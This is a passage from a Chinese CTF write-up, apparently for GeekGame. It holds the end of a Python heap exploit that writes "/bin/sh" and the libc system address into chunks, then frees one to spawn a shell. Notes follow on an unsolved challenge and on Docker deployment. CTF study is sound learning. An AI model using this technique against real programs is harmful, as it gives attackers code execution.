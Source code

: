 ```py

insert(4, 0x80, "/bin/sh\x00")
insert(5, 0x80, p64(libc_base + libc.symbols["system"]))
remove(4)
p.interactive()
```

## saferustplus(todo)

pkucc rhgg 的题还是有点难，，想打 IO_FILE + malloc_assert 触发，写完 exp 调试发现这个 libc 版本里面 malloc_assert 不会调用 fflush 函数，原地倒闭，，     
最近嗑盐，学业比较忙，有空把这个坑填上hhh ~ (rhgg tql!)   
以及那个覆盖栈上 is_admin 如果不看 writeup 确实有点想不到，看来还得多练 ()
官方 [writeup](https://github.com/PKU-GeekGame/geekgame-4th/tree/master/official_writeup/binary-saferustplus)
## 题目环境配置
此外，终于学会配 pwn 题的环境啦感动！看[轮子](https://github.com/giantbranch/pwn_deploy_chroot)    
但是发现 geekgame 的平台不需要配 xinetd 感动（）    
然后还有在 docker 运行二进制文件的时候出现 permission denied 的情况，但是在 dockerfile 中 `chmod` 给了二进制文件执行权限，可能是因为 libc 或者 linker 权限不对，加上 rwx 权限就好了   
